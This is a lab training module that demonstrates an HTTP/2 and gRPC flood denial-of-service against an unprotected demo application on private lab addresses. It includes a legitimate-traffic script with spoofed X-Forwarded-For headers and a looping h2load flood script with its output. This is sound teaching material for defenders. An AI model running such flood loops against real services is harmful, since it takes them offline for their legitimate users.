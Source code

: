 Module 6 - HTTP/2 and GRPC DoS Attack on an Unprotected Application
###################################################################

In this module you will generate **good** and malicious traffic. With the addition of malicious traffic will cause the good traffic to error out. We will utilize HTTP/2 and gRPC as part of this module.

Demonstrate the effects of HTTP/2 and gRPC attacks on an unprotected application
-----------------------------------------------------------------------------------

Generate legitimate traffic

   1. In UDF, Click on Access for the **Legitimate Traffic Generator** VM and select WebShell (or ssh into the box if you set that up)

   2. We will utilize the **good.sh** bash script in order to generate HTTP 1 traffic using **curl**, HTTP 2 traffic using **h2load** and using Python3 with route_guide_client to generate gRPC traffic.

.. code-block:: bash 
   :caption: /good.sh

   #!/bin/bash
   cd /grpc/examples/python/route_guide/

   IP=10.1.1.17
   PORT=600
   URI='good_path.html'

   declare -a array=("/#/login" "/#/about" "/assets/public/images/products/apple_pressings.jpg" "/#/search")

   while true; do
   echo
   python3 /grpc/examples/python/route_guide/route_guide_client.py  2>&1 | grep "Finished\|502"
   h2load -n 10 -c 10 --header="te: trailers " --ciphers=AES128-GCM-SHA256  https://10.1.1.17:443/testing/ &> /dev/null

   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null -w "JUICESHOP HTTP Code:%{http_code}\n" -A "Mozilla/5.0 (iPhone; U; CPU iPhone OS 4_3_3 like Mac OS X; en-us) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8J2 Safari/6533.18.5" -H "X-Forwarded-For: 3.3.3.1" http://${IP}:${PORT}/${URI} &
   echo
   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/534.30 (KHTML, like Gecko) Chrome/12.0.742.112 Safari/534.30" -H "X-Forwarded-For: 3.3.3.2" http://${IP}:${PORT}/${URI} &
   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Windows; U; Windows NT 5.1; de; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.3" -H "X-Forwarded-For: 3.3.3.3" http://${IP}:${PORT}/${URI} &


3. Run the good traffic shell script and keep it running:

.. code-block:: bash

   /good.sh


Output from the script: 

.. code:: shell 
 
   JUICESHOP HTTP Code:200
   Finished trip with 10 points

   JUICESHOP HTTP Code:200
   Finished trip with 10 points

   JUICESHOP HTTP Code:200
   Finished trip with 10 points 


Start HTTP/2 Flood attack

   1. Back in the UDF, click **Access** on the **Attack Traffic Generator** VM and select WebShell. Position this tab side-by-side with the **Legitimate Traffic Generator** WebShell tab that is already open so you can see both WebShells at the same time.

.. code-block:: bash
   :caption: http2flood.sh
   
   #!/bin/sh
   while true; do
      h2load -n 10000 -c 1000 http://10.1.1.17:500/routeguide.RouteGuide/GetFeature
   done


2. Run the http2 flood script for 15 seconds and keep it running:

.. code-block:: bash

   /scripts/http2flood.sh


Attack script output:

.. code:: shell 

  finished in 1.07s, 9350.31 req/s, 2.09MB/s
  requests: 10000 total, 10000 started, 10000 done, 0 succeeded, 10000 failed, 0 errored, 0 timeout
  status codes: 0 2xx, 0 3xx, 0 4xx, 10000 5xx
  traffic: 2.23MB (2339000) total, 527.34KB (540000) headers (space savings 45.45%), 1.50MB (1570000) data
                       min         max         mean         sd        +/- sd
  time for request:      625us       1.02s     52.83ms     25.29ms    85.84%
  time for connect:     9.42ms     28.08ms     20.14ms      4.61ms    70.10%
  time to 1st byte:    35.60ms       1.04s     96.07ms     66.04ms    99.60%
  req/s           :       9.56       21.66       17.79        1.69    72.90%
  starting benchmark...
  spawning thread #0: 1000 total client(s). 10000 total requests
  Application protocol: h2c
  progress: 10% done
  progress: 20% done
  progress: 30% done
  progress: 40% done
  progress: 50% done
  progress: 60% done
  progress: 70% done
  progress: 80% done
  progress: 90% done
  progress: 100% done

3. Click back on to the WebShell on the **Legitimate Traffic Generator** VM. Did the output from the script change? Output should no longer show "Finished trip with 10 points", because gRPC is failing, and you may see one of the following two error messages:

   .. code:: shell

      "debug_error_string = "UNKNOWN:Error received from peer {created_time:"2024-01-26T15:39:49.83945022+00:00", grpc_status:2, grpc_message:"Stream removed"}""

   .. code:: shell

      E0129 18:20:43.992650291 4639 hpack_parser.cc:999] Error parsing 'content-type' metadata: invalid value

4. Stop the HTTP2Flood attack running on the Attack Traffic Generator host by pressing **Ctrl+C**

5. On the Legitimate Traffic Generator WebShell, press **Ctrl+C** to exit the script
